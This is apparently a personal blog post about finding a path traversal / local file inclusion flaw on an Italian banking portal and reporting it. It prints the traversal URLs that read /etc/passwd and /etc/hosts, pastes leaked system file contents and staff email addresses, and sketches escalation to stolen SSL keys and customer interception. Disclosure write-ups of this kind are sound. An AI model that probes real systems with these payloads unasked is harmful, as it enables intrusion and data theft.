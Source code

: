 ```yaml
---
published: true
title: How i found an LFI vulnerability on a major banking site
layout: post
---
```

Well yes, the title is a bit clickbait but that's what exactly happened some weeks ago when i was bored on an italian banking website, let's call it MPBbanking.<br><br>
As always with "Great updates comes great responsability" for the Sysadmins that maintain such systems and that day since was their migration day from an old platform to a new one (from mpbbanking to youweb.bankmpb) i decided to explore what new features this portal has to offer... Just a few clicks and everything seems responsive and too cool to be good so i tried out the good'old LFI to be sure that everything was safe and configured correctly...  <br>
Types on the web browser URL: youweb.bankmpb.it/../../../../etc/passwd <br>
<br>
 Created by anaconda<br>
<br>
Users And Groups Exposed<br>
<br>
root:x:0:0:root:/root:/bin/bash<br>
bin:x:1:1:bin:/bin:/sbin/nologin<br>
daemon:x:2:2:daemon:/sbin:/sbin/nologin<br>
adm:x:3:4:adm:/var/adm:/sbin/nologin<br>
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin<br>
sync:x:5:0:sync:/sbin:/bin/sync<br>
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown<br>
halt:x:7:0:halt:/sbin:/sbin/halt<br>
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin<br>
operator:x:11:0:operator:/root:/sbin/nologin<br>
..<br>
..<br>
.<br>
<br>
At the beginning my reaction was like.. Well that must be a honeypot because they should have a real-badass Sysadmin(s) running HIDS/DPI/Sensors/Alerts & Monitoring every breath of any system in the radius<br>
of an entire DC.<br>
But then i said well what if they aren't so badass and missed that, so i type:  youweb.bankmpb.it/../../../../etc/hosts and then .. :
<br>
##########################<br>
#####ATTENZIONE !!<br>
##<br>
##FILE GESTITO DA PUPPET<br>
##NON MODIFICARE A MANO<br>
###########################<br>
#<br>
###########<br>
 VERONA<br>
###########<br>
options timeout:1 attempts:1<br>
search servizi *.group *.group *.zserver *.nexus<br>
nameserver *.*.5.25<br>
nameserver *.*.5.26<br>
nameserver *.*.140.25<br>
#nameserver *.*.140.26<br>
<br>
<br>
127.0.0.1   localhost localhost.localdomain localhost4 localhost4.localdomain4<br>
<br>
*.*.203.12	*.*.group	*<br>
<br>
<br>
Wow... we are dealing with a DevOpser (a Master of Puppet)...and that is an LFI (*hacker-voice* "we are in", and i didn't even need my great tool inspect element to hack their JS/CSS).<br>
So i kept checking if i can find the contact of their Sysadmin to report him this vulnerability that could cost them $$ if exploited well.... *checking postfix conf for contact* :<br>
#trap decode to catch security attacks<br>
decode:		root<br>
<br>
#Person who should get root's mail<br>
#root:		marc<br>
#root:		fabian.adam@mpbcorp-address.it,frank.life@mpbcorp-address.it <br>
<br>
Well if they should get root's mail then i'll contact them about this.<br>
The day after i got this "Macro" reply from "frank" :<br>
Good afternoon Sami,<br>
Thank you for the advisory.<br>
<br>
We have forwarded our email to the right departement that will analyse the context and take remedial action<br>
<br>
<br>
Best Regards,<br>
Frank<br>
<br>
Sent from my IBM Verse  <br>
<br>
<br>
Yep probably the "right departement" is his colleague next to him and he used this "Macro".<br>
<br>
<br>
Just some hours after this email they started to fix this LFI and no feedback.<br>
<br>
The next day i sent them another email (cc'ing some other colleagues email addresses) asking if they have any running "Whitehat/Bug bounty program" because if this is how they keep things secure even a script kiddie could find some interesting stuff in their systems.<br>
<br>
12 Days later  --> Still no reply --> What a great way to give feedback to fellow Sysadmin that helped out and reported to you a vulnerability in your systems.<br>
<br>
<br>
Yep, i know that MPBCORP is big and probably no one cares because i'm the only one (or someone else found out and was trying to hack you silently) that noticed this but what if they breached some serious data from your system and custumer data was at risk? <br>
<br>
<br>
What could have happened (From less to more skilled):<br>
- "Simple" Hacker found out LFI on the site --> Sells directly this on 0day/exploit forums/deepweb makes some cash $$ even if doesn't show how to exploit the system<br>
- "Expert" Hacker silently gather all the system data for months and then plan for major data-breach & compromise of their infrastructure...Sysadmin: Come on.. LFI ain't so dangerous --> Just Google LFI to RCE  678.000 results in 0,80 seconds and after<br>
you gathered all the system information i think it's just a matter of time (wait for exploits to come out, discover your self or buy a 0day) to compromise the host. <br>
-  Script kiddie tries to hack using any tool found on the net (% of compromise very low but ain't 100% sure on your security after i saw selinux on permissive)<br>
- "Pro" Hacker plans for his malicious plan of getting on his hands their SSL private key .pem file after he got RCE (Since he is "Pro" that what he does daily..that step will take him no time) <br>
   a) "Refactor" file permissions on .pem files<br>
   b) Download the .pem <br>
   c) MITM bank customers and get all their credentials <br>
   d) Massive blackhat profits<br>
<br>
<br>
Well that's it, fix at least your critical stuff and reply to contacts/abuse fellow Sysadmins.<br>
<br>
:Wq!:wq:WqESCESCESC:wq:wq:wq! CTRL+Z^C^C^C^C^C^C^C^C^C^^C^C<br>
[1]+  Stopped 		vi<br>
<br>
Sami<br>
 








